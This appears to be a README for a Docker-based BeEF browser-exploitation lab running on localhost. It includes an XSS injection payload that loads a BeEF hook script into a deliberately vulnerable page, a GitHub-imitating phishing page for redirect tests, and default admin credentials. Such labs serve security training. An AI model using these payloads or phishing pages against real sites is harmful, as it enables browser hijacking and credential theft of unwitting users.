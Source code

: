 # beef playground  
## build docker  
```
docker build -t beef-playground .  
docker run -it -p 80:80 -p 3000:3000 beef-playground
```  
  
## beef server launched with  
admin web page: http://localhost:3000/ui/panel  
    user: beef  
    passwd: mybeefpasswd  
hook script: http://localhost:3000/hook.js  
  
## example pages accessible at:  
### Website with XSS vuln:  
XSS URL: http://localhost/xss-minimal.php  
input: ```<script src=http://localhost:3000/hook.js></script>```  
or in URL: http://localhost/xss-minimal.php?name=```<script src=http://localhost:3000/hook.js></script>```  
  
### Phishing page for redirect test:  
phishing page: http://localhost/examples/github.html  
Module: Redirect iframe or standard  
  
## debug  
inspect docker container:  
```docker run -it --entrypoint /bin/bash beef-playground```  
in case any ruby gem installations are running an error, the solution is manual install.  
e.g. ```gem install xmlrpc```  
  
## More  
### One creating modules  
https://github.com/beefproject/beef/wiki/Module-creation  
### Usage with Metasploit  
https://github.com/beefproject/beef/wiki/Configuration#metasploit  
